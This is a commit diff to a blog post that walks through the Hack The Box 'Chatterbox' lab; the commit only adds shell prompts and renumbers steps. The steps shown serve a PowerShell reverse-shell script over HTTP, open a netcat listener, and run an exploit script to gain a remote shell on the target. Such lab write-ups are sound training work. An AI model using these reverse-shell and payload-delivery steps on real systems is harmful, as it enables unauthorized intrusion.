

Before and after one commit to t3lesph0re/t3lesph0re.github.io, a Jekyll site: the page built from _posts/2025-10-14-htb_chatterbox.md, in a window 1280 px wide and 900 px high, scrolled down 3943 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
htb chatterbox 45

````diff
--- a/_posts/2025-10-14-htb_chatterbox.md
+++ b/_posts/2025-10-14-htb_chatterbox.md
@@ -144,21 +144,21 @@ Once you have updated this script, we will need 3 seperate terminals: python HTT
 1. Start the HTTP python server:
 
 ```bash
-python3 -m http.server 80
+t3lesph0re@neptune:~$ python3 -m http.server 80
 ```
 
-1. Start the listener:
+2. Start the listener:
 
 ```bash
-nc -lnvp 8082
+t3lesph0re@neptune:~$ nc -lnvp 8082
 ```
 
-1. Run the Python script:
+3. Run the Python script:
 
 Because the script shebang shows **#!/usr/bin/python**, we will use **Python2**:
 
 ```bash
-python2 36025
+t3lesph0re@neptune:~$ python2 36025
 ```
 
 The Python script will run and you will see that the **Invoke-PowerShellTcp.ps1** was grab from the Python HTTP server `10.10.10.74 - - [14/Oct/2025 19:09:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`. Additionally, the script will output its `---->{P00F}!` and you will get your reverse shell for the user **chatterbox\alfred**.
````
